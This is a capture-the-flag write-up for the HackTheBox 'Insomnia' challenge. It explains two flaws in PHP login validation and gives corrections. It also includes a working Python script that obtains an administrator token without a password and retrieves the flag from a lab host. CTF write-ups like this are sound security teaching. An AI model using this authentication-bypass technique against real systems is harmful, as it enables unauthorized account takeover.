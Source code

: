 ## This is my solution to the Insomnia Challenge on HackTheBox

### Issue in the Original Code

The original developer made a couple of mistakes in the code. Here are the issues and corrections:

#### Mistake 1

Original code:
```
if (!count($json_data) == 2) {
    return $this->respond("Please provide username and password", 404);
}
```

Correction:
```
if (count($json_data) !== 2) {
    return $this->respond("Please provide username and password", 404);
}
```

The original check `!count($json_data) == 2` is incorrect. It should be `count($json_data) !== 2` to properly validate the length of `$json_data`.

#### Mistake 2

Original code:
```
$query = $db->table("users")->getWhere($json_data, 1, 0);
```

This code only checks the username for validation by including everything in `$json_data`, which, combined with the mistake above, creates a serious vulnerability.

### Here is my exploit

```python
import requests
from bs4 import BeautifulSoup as bs

url = "http://94.237.62.149:54590/index.php"

def get_admin_token():
    full_path = f"{url}/login"
    headers = {"Content-Type": "application/json"}
    data = {"username": "administrator"}
    respond = requests.post(full_path, headers=headers, json=data)
    token = respond.text.split('"')[7]
    get_flag(token)

def get_flag(token):
    full_path = f"{url}/profile"
    cookies = {"token": token}
    flag = requests.get(full_path, cookies=cookies)
    soup = bs(flag.content, "html5lib")
    flag = soup.find("div", attrs={"class": "home__desc"})
    flag = flag.text.strip()
    print(f"Flag is => {flag}")

if __name__ == "__main__":
    get_admin_token()
```

This Python script demonstrates how to exploit the vulnerability by obtaining an admin token and then retrieving the flag.
